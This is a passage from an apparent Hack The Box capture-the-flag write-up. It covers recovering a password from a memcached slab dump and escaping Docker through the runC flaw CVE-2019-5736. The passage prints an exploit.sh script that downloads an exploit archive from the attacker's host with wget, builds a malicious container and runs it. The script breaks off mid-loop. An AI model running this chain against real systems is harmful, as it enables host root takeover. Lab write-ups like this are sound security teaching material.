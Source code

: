 {% include image.html image_alt="ab202dbd.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/ab202dbd.png" %}

OK. There's only one slab. Now, let's dump the slab with `cachedump`.

{% include image.html image_alt="befedc5f.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/befedc5f.png" %}

`user` and `passwd` look interesting.

{% include image.html image_alt="c37947ba.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/c37947ba.png" %}

I think we have the password of `luffy`. Of course it's One Piece (or `0n3_p1ec3`). :laughing:

### CVE-2019-5736 - Breaking out of Docker via runC

You'll notice `luffy` is a member of the group `docker`.

{% include image.html image_alt="a7382d95.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/a7382d95.png" %}

And courtesy of `pspy64`, you'll also notice that a copy of `ori_runc` is copied to `runc` every minute on the minute. Something tells me that this has something to do with [CVE-2019-5736](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-5736).

{% include image.html image_alt="5d0f20ba.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/5d0f20ba.png" %}

Indeed. Check out the version of `runc` and `docker` on this machine.

{% include image.html image_alt="32561935.png" image_src="/54f48b6c-2079-418a-8a86-19da8d492067/32561935.png" %}

According to the CVE,

> `runc` through 1.0-rc6, as used in Docker before 18.09.2 and other products, allows attackers to overwrite the host `runc` binary (and consequently obtain host `root` access) by leveraging the ability to execute a command as `root` within one of these types of containers: (1) a new container with an attacker-controlled image, or (2) an existing container, to which the attacker previously had write access, that can be attached with docker exec. This occurs because of file-descriptor mishandling, related to `/proc/self/exe`.

I took a leaf from this [write-up](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/) and combine with the payload from EDB-ID [46359](https://www.exploit-db.com/exploits/46359) to come up with my own exploit.

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

RHOST=10.10.16.17

if [ "$PWD" != "/dev/shm" ]; then
    cd /dev/shm
    mv $OLDPWD/$0 .
fi

wget http://${RHOST}/exploit.tar
tar xf exploit.tar
rm *.c
rm exploit.tar

# exploit
docker build --tag runc_pwn:3 .
docker run --rm --name pwn -d runc_pwn:3
docker exec pwn bash

# clean up
while :; do
```

[1]: https://www.hackthebox.eu/home/machines/profile/251
[2]: https://www.hackthebox.eu/home/users/profile/23227
[3]: https://www.hackthebox.eu/